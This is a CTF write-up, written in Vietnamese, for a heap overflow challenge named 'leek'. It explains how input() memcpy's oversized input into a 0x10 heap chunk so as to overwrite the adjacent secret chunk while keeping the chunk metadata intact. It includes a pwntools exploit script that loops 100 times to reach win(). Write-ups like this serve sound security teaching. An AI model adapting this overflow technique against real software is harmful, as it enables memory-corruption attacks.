 # heap overflow

kiểm tra các chế độ bảo vệ cơ bản của chương trình ta có như sau :

![image](https://user-images.githubusercontent.com/93699926/234224634-6f6fcd8a-5cc2-40a7-af14-cecaa71ad847.png)

kiểm tra luồng thực thi của chương trình trong IDA ta có như sau :

![image](https://user-images.githubusercontent.com/93699926/234224815-6911f752-0ad4-4fbd-9e2d-6f4cb99ea2a4.png)

![image](https://user-images.githubusercontent.com/93699926/234224892-ae3381c2-4cb0-416f-8647-c79efc0f413c.png)

chương trình đầu tiên sẽ gọi hàm random và gieo seed cho nó = time(0) nhìn vào vòng for loop ta thấy chương trình sẽ chạy 100 lần và mỗi lần chạy nó sẽ tạo ra malloc 2 lần 
lần 1 malloc(0x10) ứng với con trỏ v9 , lần 2 là malloc(0x20) ứng với con trỏ s.
Sau đó nó sẽ tạo ra một chuỗi nhưng ksy tự ứng với giá trị random và lưu byte by byte vô biến s.
Tiếp đó chương trình cho ta nhập vô biến v9 với hàm input(v9). kiểm tra input() ta có như sau :

![image](https://user-images.githubusercontent.com/93699926/234226224-d11b9aa3-1c41-4876-8576-986a2cca26f1.png)

hàm input tạo một mảng lên tới 1288 byte và cho ta nhập vô tưng đó byte (không có overflow ở hàm này ), nhưng sau đó nó lại gọi hàm memcpy() để copy hết các ký tự ta nhập vô v9 . Nhớ rằng v9 chỉ được malloc có 0x10. và hơn nữa khi hai chunks v9 và s sẽ ngay liền kề nhau vì chúng  được malloc một cách lần lượt trên heap
.kiểm tra điều đó qua GDB ,đặt break point ngay trước khi nhảy vô hàm input(b * 0x4015e5), và kiểm tra các chunk ở trên heap ta có như sau :

![image](https://user-images.githubusercontent.com/93699926/234228744-de0909d6-1b92-4ff1-8e07-024de87dcf50.png)

phần được high light màu vàng là chunks v9 và ngay bên dứoi là chunk s sau cùng là top chunks.với bug heap overflow trong tay ta có thể ghi đè nội dung ở chunk s thành nộ dung mà ta muốn vậy thì đỡ phải đoán nữa
.Nhưng lưu ý khi overflow chunk s ta cần giữ nguyên phần metadata của chunk 9 là (0 và 0x31 ) để sau đó khi chương trình free(v9) và free(s) sẽ không gặp lỗi . ta có thể sửa lại chunk s ở lần nhập tiếp sau khi pass qua hàm strcmp() của chương trình (dòng 44 trong IDA ấy )
```python
from pwn import *
context.binary=exe=ELF("./leek",checksec=False)
#libc=ELF('./libc_32.so.6',checksec=False)
p=process(exe.path)
def GDB():
            gdb.attach(p,gdbscript=
                '''
                b*0x4015e5
                c
                ''')
            input()
GDB()

#p=remote("challs.actf.co", 31310)
for i in range(0x64):
    print('[+]time'+str(i))
    payload=b'A'*(0x40-1)
    p.sendline(payload)
    secret=b"A"*(0x20-1)
    p.sendline(secret)
    payload=b"A"*0x10+p64(0)+p64(0x31)
    p.sendline(payload)
p.interactive()
```
mỗi lần input thì chunk sẽ như sau :

![image](https://user-images.githubusercontent.com/93699926/234230457-150415c3-a4d7-4e90-b62d-5ee80d955aa7.png)

và sau khi dược nhập lần nữa vào v9 thì ta sẽ sửa lại chunk s thành như sau :

![image](https://user-images.githubusercontent.com/93699926/234230902-91a77216-44fa-4d4f-bf55-3365b0a82feb.png)

và cứ làm thế hết 100 lần loop thì chương trình sẽ gọi hàm win() và cho ta flag:

full script in p.py
chạy chương trình trên server ta có flag như sau :

![image](https://user-images.githubusercontent.com/93699926/234231725-c38d8a76-8121-4288-bc5c-4fa3e54e7464.png)
